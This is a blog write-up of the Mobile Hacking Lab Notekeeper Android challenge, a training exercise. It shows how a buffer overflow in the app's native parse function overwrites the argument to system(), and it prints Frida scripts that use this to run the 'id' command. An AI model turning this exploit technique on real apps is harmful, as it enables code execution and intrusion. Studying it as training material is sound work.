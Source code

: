 ```yaml
---
title:  "Mobile Hacking Lab Notekeeper Writeup"
date:   2024-01-22T16:33:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Notekeeper](https://www.mobilehackinglab.com/course/lab-notekeeper) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a blank screen and with button and with this button we can create notes. When we examine the manifest file, we see that we have one activity(MainActivity). Let's start with it.

### MainActivity

At the beginning of this activity, we see this line:
```java
public final native String parse(String str);
```
It means that we have a native library and we will use `parse` function from this lib file. 

![](/assets/images_mhl_notekeeper/lib.png)

There is a one libnotekeeper.so file inside the apk. But this library file compiled only for arm64-v8a architecture. Because of that i can't run this app on genymotion vm (my pc don't have arm cpu). [Also arm translation tools not supports arm v8 arch.](https://support.genymotion.com/hc/en-us/articles/360010029677-How-to-run-applications-for-arm64-aarch64-armv8#:~:text=Genymotion%20Desktop,PC%20(Windows%2FLinux).) So, I have used corellium instance that provided by MobileHackingLab. 

![](/assets/images_mhl_notekeeper/parse.png)

When we adding a new note, title string passed to parse function from native lib. We can analyze native library file with ghidra decompiler.

![](/assets/images_mhl_notekeeper/ghidra.png)

Inside this function our title variable copied to another char array with for loop. But for loop count, our title's lenght is used and `local_2a4` array have 100 char size. What happens if we give a title longer than 100 characters? 

Also we can see that with memcpy function, `Log \"Note added at $(date)\` string copied to `acStack576` variable and later it will passed to the system function for executing code.👀

I wrote a small frida script for tracing the parameters of `system` and `parse` fucntions. I cant copy-paste from my pc to corellium instance and with this script i can change the argument of parse method with this script easily.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');

    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF);
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});
```

This time i gave `100*"A" + "BCDEF"` to title. Lets see whats happened:

![](/assets/images_mhl_notekeeper/frida_test2.png)

We have succesfully overwite to `acStack576` variable and our input passed to system function. To understand better, we can use hexdump to follow memory state.

![](/assets/images_mhl_notekeeper/memory1.png)

As seen in screnshot, our title variable written before the text passed to stsyem function. If we can give input longer than 100 char, its overwritten.

![](/assets/images_mhl_notekeeper/memory2.png)

### Code Execution

If we can overwite `system` function argument, we can run command what we want. For testing, i run a http server and from phone, i will download it to app's local directory.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');
    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid > /data/data/com.mobilehackinglab.notekeeper/poc.txt;#");
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});

```

![](/assets/images_mhl_notekeeper/poc1.png)

We can execute command🎉🎉🎉
Here is the poc video with another command:

[![](https://img.youtube.com/vi/8RmEMxs_Lpk/0.jpg)](https://youtu.be/8RmEMxs_Lpk)

Thanks for reading! See you in next writeups 👋🏻👋🏻

